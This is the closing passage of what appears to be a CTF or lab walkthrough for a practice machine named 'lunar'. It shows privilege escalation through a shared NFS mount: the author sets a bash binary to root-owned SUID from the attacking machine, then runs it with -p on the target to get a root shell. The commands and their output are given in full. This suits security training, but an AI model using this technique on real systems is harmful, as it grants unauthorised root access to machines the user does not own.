 Then on our attacking machine we do:

```
┌──(mark__haxor)-[/mnt]
└─$ cd mount 
                                                                                                                                                                                                                   
┌──(mark__haxor)-[/mnt/mount]
└─$ ls          
bash
                                                                                                                                                                                                                   
┌──(mark__haxor)-[/mnt/mount]
└─$ sudo chown root:root bash                                   
                                                                                                                                                                                                                   
┌──(mark__haxor)-[/mnt/mount]
└─$ sudo chmod +s bash           
                                                                                                                                                                                                                   
┌──(mark__haxor)-[/mnt/mount]
└─$ ls -la      
total 1164
drwxrwxrwx 2 root root    4096 Jan 23 19:40 .
drwxr-xr-x 3 root root    4096 Jan 23 19:31 ..
-rwsr-sr-x 1 root root 1183448 Jan 23 19:40 bash
```
Now that we've set the bash file to a suid binary lets run it on the target

```
liam@lunar:/srv/share$ ls -al
total 1164
drwxrwxrwx 2 root root    4096 Jan 23 18:40 .
drwxr-xr-x 3 root root    4096 May 18  2022 ..
-rwsr-sr-x 1 root root 1183448 Jan 23 18:40 bash
liam@lunar:/srv/share$ ./bash -p
bash-5.0# cd /root
bash-5.0# id
uid=1000(liam) gid=1000(liam) euid=0(root) egid=0(root) groups=0(root),1000(liam),1001(network)
bash-5.0# ls -al
total 44
drwx------  6 root root 4096 Jan 23 18:18 .
drwxr-xr-x 20 root root 4096 Jan  7  2021 ..
lrwxrwxrwx  1 root root    9 May 18  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Jul 13  2022 .cache
drwxr-xr-x  3 root root 4096 Jan  7  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-------  1 root root   33 Jan 23 18:18 proof.txt
-rw-r--r--  1 root root   75 Jul 13  2022 .selected_editor
drwxr-xr-x  3 root root 4096 Jan  7  2021 snap
drwx------  2 root root 4096 Jan  7  2021 .ssh
-rw-------  1 root root  819 Jul 13  2022 .viminfo
bash-5.0# 
```

And we're done 

<br> <br>
[Back To Home](../../index.md)
<br>



 
 



